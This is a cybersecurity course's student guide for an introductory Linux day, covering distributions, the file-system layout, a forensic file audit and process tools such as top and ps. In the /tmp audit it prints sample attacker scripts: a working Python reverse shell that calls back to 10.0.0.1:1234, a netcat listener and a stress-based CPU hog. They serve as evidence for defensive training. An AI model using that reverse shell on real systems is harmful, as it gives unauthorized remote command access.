





## Student Guide: Linux 1 Day 1 - Introduction to Linux

### Class Overview

Today's class will introduce you to the Linux operating system.

This week, you will work through a series of command-line exercises in which you will explore a Linux file system, collect evidence of a security breach, audit and reconfigure a Linux machine's user and group permissions, and taking steps to harden the system.


### Class Objectives

By the end of class you should be able to:

- Name three of the most important distributions of Linux.

- Navigate the Linux file structure using the command line.

- Manage processes with the `top`, `ps`, and `kill` commands.

- Install packages using `apt`.

- Edit configuration files using `nano`.


### Lab Environment
 Today's lesson will use the **Ubuntu** lab environment. To access it:
 - Log into the Azure Classroom Labs dashboard; find the card with the title **Ubuntu**; 
 - Click the monitor icon in the bottom-right;  
 - Select **Connect with RDP**.
 
 The lab should already be started, so you should be able to connect immediately. 


Refer to the [lab setup instructions](https://cyberxsecurity.gitlab.io/documentation/using-classroom-labs/post/2019-01-09-first-access/) for details on setting up the RDP connection. 
 
 
 Use the credentials below to log in. Both students and the instructor will use the same login for activities and activity reviews.
  - Username: `sysadmin`
  - Password: `cybersecurity`
### Lesson References

- [Linux FHS](https://en.wikipedia.org/wiki/Filesystem_Hierarchy_Standard)
- [Debian](https://www.debian.org/)
- [Ubuntu](https://www.ubuntu.com)
- [RedHat](https://www.redhat.com/en)
- [Fedora](https://getfedora.org/)
- [CentOS](https://www.centos.org/)
- [Kali](https://www.kali.org/)

### Slideshow

- The slides for today can be viewed on Google Drive here: [4.1 Slides](https://docs.google.com/presentation/d/1k5bMFVHrZIcI4ijvciXDAYnT3Zm0VURt-RTn5z_DxvE).
---

### 01. So, Why Linux? 

Today's lesson will introduce the fundamental concepts and details of Linux systems.

While Linux is uncommon as an operating system on personal computers, it is widespread on the Internet and in enterprise networks: By some estimates, [over 70% of websites on the web run some version of Unix](https://w3techs.com/technologies/overview/operating_system/all).

The presence of so many Linux machines on modern networks makes them a common target for attackers. Therefore, familiarity with the operating system is crucial for cybersecurity professionals.

This knowledge is essential for the following technical roles, among others:

- **Help Desk/IT Support**: Help Desk and IT Support specialists often need to troubleshoot issues on Linux workstations. People in these roles often find themselves troubleshooting issues with macOS, as well. Since macOS shares most of its structure with "classical" Linux operating systems, this knowledge is valuable even for personnel who are not in charge of configuring or managing machines themselves.

- **Systems Administration**: As most complex networks contain at least one Linux server, systems administrators need to understand how to audit, configure, and secure Linux servers and workstations.

- **Penetration Testing**: Again, most complex networks contain at least one Linux server, making them frequent targets for pentesters. Since pentesters must exploit machines to gain access, deep knowledge of how the operating system works and where it stores its most important files is essential.

- **Network Forensics**: Forensics specialists spend much of their time inspecting server logs. Often, these logs are generated by or stored on a Linux server, and forensic examiners must be able to navigate the file system. In addition, they must be careful not to inadvertently alter the file system while investigating, making knowledge of how and where data is stored on Linux machines a crucial element of the job.


#### Today's Activities

Today's exercises will require you to investigate a malfunctioning Linux server, which users have reported is running more slowly than usual. You will be tasked with identifying evidence of suspicious activity on the system, and then will take steps to contain it.

You will use the following methodology across the student activities during the day:

- **Audit files:** You’ll begin by looking for suspicious files on the machine. To do this, you will learn how files are organized on Linux, and where important system and user files are normally found. This will enable you to identify malicious files that seem "out of place."

- **Audit processes:** After identifying suspicious files, you will look at which programs users are running. This will allow you to check that no one is running malicious software on the server.

- **Installing security packages:** Next, you will install security applications, also known as packages. These will help secure the machine from future attacks.

- **Configuring security services**: Finally, you will configure one of these packages, called tripwire, to automatically notify us whenever someone saves suspicious files on the machine.


### 02. Linux History and Distributions 

An **operating system**, or OS, is a platform that allows users to install and run applications, such as web browsers and text editors.

- Windows, Mac OS X, and Linux are all examples of operating systems.

- Of these operating systems, Linux is by far the most commonly used on the Internet, and most enterprise networks feature at least one Linux machine.

- This is because, unlike Windows and OS X, Linux is **free, open source software (FOSS)**.

- This means that anyone can read or modify its **source code**.

Linux is free and open source specifically because Windows and Unix, Linux's early competitors, were not. In other words, Linux was developed for researchers and students in direct response to the fact that Windows and Unix were extremely expensive and/or inaccessible in the early days of computing.

- Today, most tools in the hacker/security community are still published as open-source and a belief in free software and free information is very widespread in the industry. Almost all the tools students will use in class are open source, and nearly all technical security professionals are familiar with the Linux FOSS ecosystem.

- Because Linux is FOSS, many different people have developed their own special-purpose variants of the operating system. These variants are called **distributions**, or **distros.**


There are many different distributions in use today. In this course, we will use two: **Ubuntu** and **Kali Linux**.

- Both Ubuntu and Kali Linux are specialized versions of a distribution called **Debian**. Ubuntu is essentially Debian with customizations for general-purpose users, and Kali is Debian with customizations for security professionals.

- Since both distributions are based on Debian, everything you learn in thwsw Linux units will transfer directly to everything they learn about Kali in the latter half of the course.

One of the most important skills you will acquire in this module is comfort with the **command line**.

- Knowledge of the command line is particularly important in the professional world, because most production Linux servers don't even offer a graphical interface. They can only be used from the command line!

- Command line-only machines are called **headless servers**. Headless servers are the norm because by today's standards, the command line requires very few resources. This gives the server maximum resources to run its services and applications. A GUI based system is neither required nor desirable.

- Being able to navigate a headless Linux server is the main reason you need to learn Linux and the Bash command line. Learning the Bash command line environment will enable you to work with both Linux _and_ Unix systems, such as Mac OS X.


### 03. Activity: Distribution Research 
 - [Activity File: Distribution Research](Activities/03_STU_Distro_Research/Unsolved/README.md)


### 04. Activity Review: Distribution Research 
- [Solution Guide: Distribution Research](Activities/03_STU_Distro_Research/Solved/README.md)

### 05. Linux File System Structure 

All operating systems maintain certain conventions for where and how they store different kinds of files. For example, Windows and Mac machines typically place images in a `~/Pictures` folder. 

- Linux also has a conventional file system structure.

- These conventions are consistent across distributions. For example, user applications are typically stored in `/bin`, and this will always be the case across distributions. 

You can therefore can apply what they learn today to other distributions you encounter, as they will all have the files and folders they will learn about today.

- In addition, all popular Linux distributions use the bash shell by default. This means that you can use the command line tools they learn here on other distros, as well.

- Being able to use the same command line on many distributions is a major advantage, because GUI-based desktop environments are usually not the same across distros.

  - For example, Ubuntu and Fedora have look very different, and need to be configured with different GUI tools, but the shell commands used to configure each machine are almost identical.

  - Understanding the command line allows administrators to work with any Linux machine using a bash shell, even if it uses an unfamiliar desktop environment.

Once we master the Linux file system structure, we can better identify potentially malicious applications and  files if they are in places where they do not belong. Often times, this can indicate that the system has been compromised.


#### Standard Linux Directories

There are several conventional directories in Linux: 

- `/`: This is the **root** directory, which contains every other directory on the system.

- `/home`: This directory contains each user's private files. Users should not be able to save files anywhere else.

- `/etc`: This directory contains configuration files, which define how the machine should run and who is allowed to use it. For example, this directory includes information on registered users and their passwords.

- `/bin` and `/sbin`: These directories contain applications, such as web browsers, and commands, such as `ls`.

- `/var`: This directory contains files that change over time. For example, `/var/log` contains log files, which programs update frequently as they run.

- `/tmp`: This directory contains files that are only needed for a short period of time.

There are other important directories, such as `/proc` and `/boot`. However, these have very specific use cases, and are beyond the scope of today's lesson.

#### Linux File Audit Demo

In the class demo, we will do a Linux File Audit which will familiarize us with the directory strucure. The audit requires the following specific steps:

1. Ensure that no one has added files to protected directories.

2. Verify that only registered users are allowed to save files on the machine.

3. Make sure that no suspicious programs have been installed on the system.

4. Verify that the server has been saving log files, which contain important records of suspicious behavior.

5. Ensure that attackers haven't saved malicious files in the "temporary files" directory, which is often abused by attackers.


This will be a long demo, so we've included some of the main steps for you to follow along in your own lab environment. Pay attention to your instructor for anything that's not covered in the below section. 

---

Launch a terminal. 

Create a research directory in which you will store any findings.

- Run: `cd ~`

- Run `mkdir research`

- Run `ls` to display your new directory.

Syntax breakdown: 

- `cd` means **change directory**, and allows you to move to a different folder on the file system.
- `~` stands for **home**. Each user has their own private home folder, which only they can write to.
- `mkdir` means **make directory**, and is used to create new folders.
- `research` is the name of your new directory.
- `ls` lists out the files so you can see your new directory.


#### `/` Root Directory

`/` refers to the root directory: the directory that contains every other directory. All files and folders are ultimately contained within the root directory.

- Run: `cd /`

- Run: `ls`

Each item listed here is a directory, because the main purpose of `/` is to store other crucial directories, not bare files. Bare files in `/` are usually evidence of suspicious behavior. 

- Because there are no bare files here, the first part of our audit when it comes to seeing if there are suspicious files in protected directories, looks good.

You’ll save a record of the contents of `/` to your research directory.

- Run:` ls > ~/research/files_in_root.txt`

Syntax breakdown:

- `ls` lists the files.
- `>` directs the list into a file of their choosing.
- `~/research` is the directory we created a moment ago.
- `/files_in_root.txt` is our new file that will contain the list generated by `ls`

Run: `cat ~/research/files_in_root.txt` to view the content of the file. 


#### `/home` Directory

Linux allows you to create multiple user accounts. This allows many people to use the machine at the same time.

- Each user is allowed to personalize their environment. For example, users can change their desktop backgrounds or install new software.

- The files that contain each user's personal preferences are called **local configurations**, or **configs**. These configurations only apply to the user who wrote them.

- Each user is given their own dedicated folder on the file system. This is where they store their own private files, folders, and local configurations.

- By default, users are only allowed to modify files and folders in their own dedicated directory. This means they cannot modify files in other users' directories, or edit files in protected folders like `/`.

- These private directories are stored in `/home`.

The name of a user's private directory is the same as their username.

- For example, the user `sally` would have a directory at `/home/sally`, while the user `jack` would have a directory at `/home/jack`.

- Only registered, active users should have private directories in `/home`. Directories belonging to users who have been deleted or who no longer use the computer should be deleted.

- Files or folders that do not belong to either active or inactive users are potential signs of malicious activity, and should be carefully examined.

Apply the following checklist when investigating the `/home` directory:

1. Does `/home` only contain users' home directories (i.e., no bare files)?

2. Have any users saved executables or scripts in their home folders?

3. Does every directory in `/home` belong to an active user?

You will answer the first two questions by listing files in `/home`. You'll answer the third question by comparing this list to the contents of a file in `/etc`, which you'll explore in the next step. The below info has details on the steps you'll take, but follow the instructor demo to confirm the results of your audit. 

- Run: `ls /home`

There are no bare files in our `/home` directory, so the first question checks out. 

- Run: `ls -R /home`  

	- This command will list all files belonging to all users. `-R` stands for _recursive_. This causes `ls` to list every file in every folder contained in `/home`, instead of just the files in `/home` itself.

It does not appear that any users have saved any scripts, which end in `.sh`.

To answer the third question and verify if every directory in `/home` belongs to an active user, you will need to compare the contents of files in `/etc` to the list of directories in `/home`.

For now, you will just save the contents of our `/home` directory into our research directory. We’ll revisit this when we explore the `/etc` directory.

- Run `ls /home > ~/research/files_in_home.txt`

#### `/etc` Directory


The `/etc` directory contains configuration files that define how the machine should run and who is allowed to use it.

- While normal users can only modify their own local configurations, an administrator can make changes that apply to all users of the system.

- These are called **system-wide configurations**, and apply to every user on the system. For example, an administrator might configure a machine to prevent people for browsing to https://facebook.com.

- Configurations are typically stored as simple text files. Therefore, they can easily be inspected with familiar tools like `cat` and `less`.


The files `/etc/passwd` and `/etc/shadow` contain information about all registered users on the system.

`/etc/passwd`contains a list of registered users on the system. Contrary to its name, it contains no information about user passwords.

- This means that attackers who steal `/etc/passwd` will get a list of users to attack, but will not be able to steal their passwords.

By contrast, `/etc/shadow` contains both a list of usernames and information about their passwords.

- Specifically, it stores something called a **password hash**. This is a string that is different from the user's password, but the operating system can still use it to check that they've entered the correct password.

- Because hashes aren't passwords, they cannot be used to log in. Additionally, the process of turning a hash back into a password, called **password cracking**, is extremely time-consuming.

- This means that an attacker who steals `/etc/shadow` cannot break into user accounts without first spending the time to crack their passwords.

- In general, an attacker cannot crack strong passwords, but cracking passwords is much easier to do if the passwords are weak. 

- Since most users do not use strong passwords, an attacker who steals `/etc/shadow` is likely to be able to crack at least one of the passwords it contains.

- This makes `/etc/shadow` one of the **most important files** to protect on a Linux system.


Run `less /etc/passwd` to show the contents of `/etc/passwd`.


Run `less /etc/shadow` to show the contents of `/etc/shadow` .


- This file looks nearly identical to `/etc/passwd`, with one stark difference: Instead of an `x`, the second field contains a long, complex string, such as `$6$6Y/fI1nx$zQJj6AH9asTNfhxV7NoVgxByJyE.rVKK6tKXiOGNCfWBsrTGY7wtC6Cep6co9eVNkRFrpK6koXs1NU3AZQF8v/`.

  - This string is a password hash.

  - This hash cannot be used to log in, but can be cracked to retrieve the user's original password.

- If a row in `/etc/shadow` contains a `!` instead of a password hash, that user is allowed to log in without a password. This is almost always a bad practice.

- If a row in `/etc/shadow` contains a `*` instead of a password hash, that user is locked and not allowed to login.
  - This is usually implemented on a user reserved for the system, and not a Human user.

All the Human users have a password hash and a password. This part of our audit looks good. 

- Run `sudo cp /etc/shadow ~/research`

  Syntax breakdown:

  - `sudo` has to be used here because this file is owned by the `root` user.
    - We will go over `sudo` in depth in the next class.
  - `cp` stands for `copy` and allows you to copy files.
  - `/etc/shadow` is the file you want to copy.
  - `~/research` is the directory we want to copy our file into.


Next you will verify whether every directory in `/home` corresponds to a user listed in `/etc/shadow`.

- Run `cat /etc/shadow`

- Run `ls /home` to see everything in the same terminal.

In this example, all users have a password hash, and every directory in `/home` corresponds to a user listed in `/etc/shadow`.

This completes our audit of the `/home` and `/etc` directories.


#### `/sbin` and `/bin` Directories

Next you'll check that none of our users have saved unusual files to `/sbin` and `/bin`, two closely related directories that store programs users can run.


Every application or command you run on a Linux system is a program whose code is stored in files.

- Files containing programs are unique because you can run them. This is in contrast to other, "normal" files, such as PDFs, which you can only read and write.

- Files you can run are called "executable files," because they execute some task.

- All software, including malware, is stored in executable files.

- Malware files can be dangerous, because there is nothing preventing them from doing things that might harm the system.


Executables can be stored anywhere on the file system, but the two main directories that store commands are `/sbin` and `/bin`.

- `bin` stands for _binary_, because executable files contain "machine code." This is code written in 1s and 0s, which is not readable by humans.

- The `/bin` directory contains programs used by "normal" users, such as `ls` and `cp`.

- The `/sbin` directory contains programs used by administrators, such as `adduser`, which can add users to a system, and `passwd`, which is used to change a user's password.


Checking the contents of `/bin` and `/sbin` is important, because it allows administrators to verify that no one has installed unauthorized software on the machine.

You can check that no unauthorized software has been installed by making sure that the only programs listed in `/bin` and `/sbin` are those included by default, or installed by the administrator.

- Run `ls /bin` to display the contents of `/bin`. 

- Run `ls /sbin` to display the contents of `/sbin`.

Output should look like:

  ```bash
  $ ls /bin
bash          cp             grep        ls              ntfs-3g.probe  ps          systemd                         unicode_start
bunzip2       cpio           gunzip      lsblk           ntfscat        pwd         systemd-ask-password            vdir
busybox       dash           gzexe       lsmod           ntfscluster    rbash       systemd-
...
  ```

Run: `ls /sbin`.

  ```bash
  $ ls /sbin
  acpi_available        e2image       ifdown             lvdisplay    mkfs.vfat          pvresize           unix_chkpwd
  agetty                e2label       ifquery            lvextend     mkhomedir_helper   pvs                unix_update
  apm_available         e2undo        ifup               lvm          mkntfs             
  ```


At first glance, all of these tools look like packages included by default.

- You can verify this by comparing these results to a list of packages that the administrator has installed.

- Since comparing these lists line-by-line is time-consuming, for now, you will simply save them to review in greater detail later.

Run the following commands to save lists of the files in `/bin` and `/sbin`:

- Run `ls /bin > ~/research/executables_in_bin.txt`

- Run `ls /sbin > ~/research/executables_in_sbin.txt`


You can save a list of all files installed by the administrator by running the following command:

Run `apt list --installed > ~/research/packages_installed_by_admin.txt`

Many programs save information about errors or suspicious behavior in **log files**. These log files often contain valuable evidence about malicious activity.

Since the list of installed programs looks good, you'll proceed to verify that these programs are saving the expected logs.

Log files change constantly, because programs that keep them add information to them as they run. This means these files are _variable_; in other words, they change over time.

- Files that change over time are stored in `/var`, for variable.

- Log files are stored in their own directory, called `/var/log`.

- Other types of variable files are stored in `/var`, but will not be discussed in today's class.


Linux systems should always keep the following logs, at a minimum:

  - `/var/log/ufw.log`: Stores firewall logs, which include attempts by users to visit unauthorized sites. 

  - `/var/log/auth.log`:  Stores failed login attempts when a user is trying to log in as the root user

Run `ls /var/log` to display its contents. You should see some of the following logs:

  ```bash
  $ ls /var/log
  alternatives.log  btmp  kern.log  syslog   apport.log  dpkg.log  auth.log
  ```

- You should not have a `ufw.log`

- This listing reveals the server is _not_ maintaining firewall logs, but _is_ saving records about failed login attempts.

- This means you do not know if users have visited malicious websites, but you are able to tell if anyone has tried and failed to log in as an administrator or different user.

Run `cp /var/auth.log ~/research`

#### `/tmp` Audit

We have one last directory to check: `/tmp`, which stores temporary files, and is often abused by hackers.


Logs are meant to be permanent. In other words, programs expect to add information to log files—not rewrite them or delete them and create new ones (though administrators can do these things manually).

- Programs often need to create files that do not need to be permanent. For example, a text editor might save copies of your work every few minutes, even if you don't manually save it, to ensure that it can restore your work if you accidentally close the editor before saving.

- Such files are _variable_, in that they change regularly, but also _temporary_, in that they do not need to be maintained long-term.

- Since these files are different from logs and other such files, they are typically stored in their own dedicated directory: `/tmp`.

- Since files saved to `/tmp` are intended as temporary, the operating system deletes files in `/tmp` whenever the machine is restarted.

Because files in `/tmp` are deleted between reboots, hackers often save malicious files to this directory, knowing that they'll be available for use while they're exploiting the machine, but automatically deleted _by the target itself_ at reboot.

- This is the reason it's so important to check `/tmp` for suspicious files—especially scripts and executables.

Run: `ls /tmp`

Your output should look similar to:

```bash       
ssh-nz0wF8pAAwNZ
systemd-private-edef814d301f47a5a3e4a1319eb42b9e-haveged.service-CFnP1U
systemd-private-edef814d301f47a5a3e4a1319eb42b9e-rtkit-daemon.service-qxhxSo
qrexec-rpc-stderr-return.2493  
user
a9xk.sh
rev_shell.sh
listen.sh
59581DF4-5622-42F9-8240-788CEE8DC0DF_IN
Temp-84un9sh49-4483-2836-85jf-3ydn00847
```

This directory contains files with names like `59581DF4-5622-42F9-8240-788CEE8DC0DF_IN`.

- These filenames are not very useful to humans. This is because they are temp files saved by programs for their own use.

- There are multiple files ending in `sh`, which indicates a script file.

- This is highly suspect, as scripts are in no way "temporary" files.

- In addition, while it's not clear what these files do, they are clearly not named like a "normal" temp files.


Run `cat /tmp/a9xk.sh`

Run `cat /tmp/rev_shell.sh`

Run `cat listen.sh`

Output should read:

```bash
$ cat /tmp/a9xk.sh
#!/bin/bash
sudo stress --cpu  8 --vm 1 --io 3 --vm-bytes 256 2> /dev/null

$ cat /rev_shell.sh
#!/bin/bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'i

$ cat /tmp/listen.sh
#/bin/bash
nc -lvp 4444 > /tmp/rev_shell.sh &
renice -n 1 $(pidof nc)
```

It's unclear what these files do, but they are clearly unlike the other files in `/tmp`.

- Since these files still live in `/tmp`, it was probably planted recently, meaning the attacker may still be active.

- While the rest of the audit turned up no evidence, this discovery alone suggests that a real threat to the system is present and active.

- Furthermore, since these files are scripts, the next logical step is to look at which programs are running and determine if any of these potentially malicious scripts are currently active on the system.

For now, we want to make a copy of the scripts we found.

- Run `sudo cp /tmp/a9xk.sh /tmp/rev_shell.sh /tmp/listen.sh ~/research`

You are able to copy several files at once this way.

#### Directories Summary

Your audit took you to the following directories:

- `/etc`: Stores host-specific system wide configuration files are stored, as well as the most sensitive files on a Linux system.

- `/var`: Stores files that are continually updated live.

- `/home`: Stores user home folders.

- `/tmp`: Where applications write temporary files that can be deleted on reboot.

- `/bin` and `/sbin`: Where the system keeps its main _binary_ or program files.


### 06. Activity: Linux Landmarks
- [Activity File: Linux Landmarks](Activities/06_STU_Linux_Landmarks/Unsolved/README.md)


### 07. Activity Review: Linux Landmarks 
- [Solution Guide: Linux Landmarks](Activities/06_STU_Linux_Landmarks/Solved/README.md)

---

### 08. Break 

---

### 09. Resources and Processes  

The previous instructor demo revealed a suspicious script in `/tmp`. Since scripts are executable programs, our next step is to check which programs are currently running on the machine to determine if anything malicious is taking place.

When a program runs, it must process data and potentially make changes to the file system. This is why we call a running program a **process**.

  - For example, a text editing application needs to save temporary files to backup users' work, and then save their final draft to a file on disk.

When these programs process, save, and modify data, they consume a computer's  **resources**.

- The two important resources we'll look at are **memory** and **the Central Processing Unit (CPU)**. 

- Programs compete to use a finite amount of resources available on a machine. 

- This limited amount of resources is something attackers will take advantage of when attacking a machine.

Memory comes in two forms: **Random Access Memory (RAM)** and disk space.

- Disk space is used to save data permanently. In other words, files saved to a disk persist even after a process ends.

- By contrast, RAM is used to run the program's code. In other words, it is only used while the program is running.

- The more work a process does, the more RAM it needs to use. Processes that do a lot of work often use a lot of RAM. However, there is only a finite amount of RAM available, so such "heavy" processes often slow down the computer by "hogging" available memory from other ones.

The **Central Processing Unit** also works to process programs on a system:

- The Central Processing Unit or CPU acts as the central brain of a system,  determining how much work a process has to do, and how "difficult" that work is.

- A difficult task (such as encrypting a large file) will use a lot of RAM and/or CPU, while an easier task (like executing the `ls` command) will require minimal amounts of these resources.

Hackers can take advantage of a system's finite resources: 

- Linux systems can run multiple processes at once. Since a system only has finite memory and disk space, all of these processes must compete for resources. 

- Hackers can perform denial of service (DoS) attacks by launching processes that eat up memory on a target machine. This can slow down or crash the machine, making it unavailable to users, and thus denying them service.

- Hackers can also start malicious processes that don't use a lot of memory, and are therefore not easy to spot without specifically looking for them. 

  - One example is a "backdoor" process, which allows hackers to break into machines undetected. These don't use much memory because they essentially make a network connection to the hacker's machine and then listen for instructions.

-  These threats emphasize the importance of being able to identify normal system processes from runaway or malicious processes.

Linux has several commands for managing processes: 

- `top ` allows you to see all of the running processes in real time. It updates every three seconds to show you what's happening on the system.
  - `top` is often used by administrators to get a general feel for how the system is running in real time. If a process is using too much memory or CPU, it is immediately obvious.

- `ps` allows you to take a snapshot of all the running processes on the system. You can use different arguments to show different subsets of processes and use this output with other commands in the command line.
  - Snapshots are good if you want to get some process information programmatically or if you don't need to see how the program is behaving and only want some basic info on it.

- `kill` is used to stop processes, usually ones that are causing problems. `kill` attempts to allow a process to finish what it's doing before it shuts down. However, we will learn how to use a flag that will immediately stop any process.

Overall, we use `top` and `ps` to get a feel for the overall "system health" of the machine. These commands let us identify details such as how much memory/CPU a process is using and even what user started each process.

- A "healthy machine" is one in which the system is not being "overtaxed". In other words, the machine is not using too much memory, RAM, disk space, or other resources.

- When a system _is_ overtaxed, it affects uptime, which in turn compromises the availability of the services that system provides. A machine only has a finite amount of resources, so when they are used up, the machine slows down and cannot process requests as easily.

- An extreme example of this would be an attacker intentionally using up a system's resources to slow down the machine and compromise its availability. This type of attack is often carried out on a web server, and stops the machine from being able to display its website. It is known as a Denial of Service or (DoS) attack.


We want to run the potentially malicious script to determine how it affects system health. This is usually done by:

- Moving the malicious script or program to a contained environment (such as a virtual machine) where it cannot escape or affect other machines.

- Executing the malicious script or program.

- Monitoring how it uses memory/CPU, which files it accesses, any network communications it makes along with any other behavior it exhibits.

- This is called **dynamic analysis** and helps us understand an attacker's intent.

- Dynamic analysis is useful for determining how we should harden the system and where else to look for consequences or evidence of compromise.

In real life you wouldn't run the script right on the machine you're auditing, but for the purposes of this exercise, we will run it on the same machine. Also in this case, our machine is already a VM. 

In the upcoming demo, we will run the suspicious script we found in the `/tmp` directory during our previous audit. We will then use `top` and `ps` to understand what it does, and use `kill` to end the process after you understand its behavior.


#### Inspecting Malicious Files Demo

Log in to the  VM environment.

We'll first run `top` on our system to better understand its output.

- Run `top`

`top` splits its output into two panes: an upper "summary" pane, and a lower "details" pane.



The information in the pane at the very top summarizes **overall resource usage**.

  

- The top row shows the time the system was started, how long it has been up, and how many users are using the system.

- The second row contains information on how many processes, also known as **tasks**, are currently running.

- The remaining lines in the top pane show overall CPU and memory usage. **CPU usage** refers to how much the computer has to "work" to finish its task. **Memory usage** refers to how much RAM and disk space is used to do that work.

- A quick glance at the upper pane reveals the general state of the system—high CPU and memory usage indicates that the computer is running inefficiently. The number of active users reveals whether more people than usual are using the machine.

While this top pane is useful for diagnosing a machine's general health, we must read the bottom pane to understand which specific processes are using CPU and/or memory.

In the bottom pane, it breaks down usage by each individual process running on the system.



The following columns as the most important sections for our purposes:

- **PID**: A number identifying each running process. This is essentially a name for each process. **The PID is extremely important, as this is how you specify which process to stop when using `kill`**.

- **USER**: Which user started the process.

- **PR**: "Process priority." The higher the number, the more important the process. This determines how much resources are dedicated to each process and if one action gets processed before another. It is determined by the system.

- **NI**: "Nice value." This is related to the process priority. A nice value of -20 means "highest process priority." A nice value of 19 means "lowest process priority". Most processes have a nice value of zero.  A process priority can be escalated in a number of ways, though it is normally managed automatically.

- **COMMAND**: Name of the command that started the process.

- **%CPU**: Percentage of CPU the process is using.

- **%MEM**: Percentage of RAM the process is using.

You can enable column highlighting and sorting by pressing the `x` key. By default, the `%CPU` column is highlighted and sorted by highest `CPU` usage.


You can also sort the processes by what user started it by pressing the `u` key.

- Press the `u` key.

- Enter `root` to demonstrate sorting by processes started by the root user.



At the moment, nothing much is happening on the system, so CPU usage is relatively low. This is what you'd expect a "normal" system to look like.

Press `q` to close top return to the command line.

While top generates a live view of all running processes (which includes a lot of information), sometimes all you need is a "snapshot" of which processes are running and their `PID`s, so you can stop those that are causing problems.

`ps` is great if you want to look at only one process or a few processes and get their `PID` to interact with them or shut them down. Because it outputs a static list of processes, it is also useful for interacting with processes programmatically.  

- While not as powerful as `top`, `ps` is a "quick and dirty" way to get information about running processes.

- Run `ps`

Your output should be similar to:

```bash
$ ps
  PID  TTY         TIME  CMD
 1319  pts/0   00:00:00  bash
29243  pts/0   00:00:00  ps
```

Note the following about the output:

- This lists the PID, TIME, and CMD (command).

- The `bash` process is the shell you're using.

- The `ps` process is the command you just ran.


`ps` can generate more detailed output with the addition of special flags.

- Run `ps a`

Your output should be similar to:

```bash
  PID TTY      STAT   TIME COMMAND
  625 hvc0     Ss+    0:00 /sbin/agetty --keep-baud 115200,38400,9600 hvc0 vt220
  627 tty1     Ss+    0:00 /sbin/agetty --noclear tty1 linux
 1319 pts/0    Ss     0:00 bash
 3692 pts/0    T      0:00 top
17959 pts/0    R+     0:00 ps a
27778 pts/1    Ss     0:00 bash
```

Syntax breakdown:

- `ps` is the process command.

- `a` Stands for _all_ processes that have a terminal assigned to them

A "terminal" refers to the command line terminal that we are using. 
  - In the past, terminals used to be one physical screen or monitor called a teletype terminal or TTY terminal. Today, terminals are still referred to as a `TTY` terminal, but they are virtual and a Linux system has multiple virtual TTY terminals.

Some processes are assigned a virtual TTY terminal in case you need to interact with that process later.

- Type: `ps aux`

Syntax breakdown:

- `ps a` are the same as the previous command.
- `u` select by effective user ID.
- `x` lists processes that do not have a terminal assigned to them.


When used together, these three options take a snapshot of every process running within a few milliseconds of you hitting the enter key.

- Run `ps aux`

Output should look like:

  ```bash
  $ ps aux
USER       PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root         1  0.0  0.0 204740  6276 ?        Ss   Jul24   0:01 /sbin/init
